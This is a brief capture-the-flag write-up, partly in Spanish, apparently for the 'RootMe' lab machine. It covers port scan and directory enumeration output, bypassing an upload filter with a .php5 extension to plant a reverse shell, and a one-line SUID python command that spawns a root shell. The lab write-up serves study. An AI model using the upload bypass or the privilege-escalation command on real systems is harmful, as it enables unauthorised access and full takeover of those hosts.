# RootMe
## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
```
## Enum
### HTTP
#### Gobusting
```
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```
##### Panel 
En panel tenemos un file upload pero no deja subir php como tal pero podemos subir codigo con la extensin php5, con esto subimos una reverse shell y obtnemos RCE 

## Privesc
Encontramos un suid en /usr/bin/python, ejecutamos lo siguiente y ya tenemos shell como root
```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
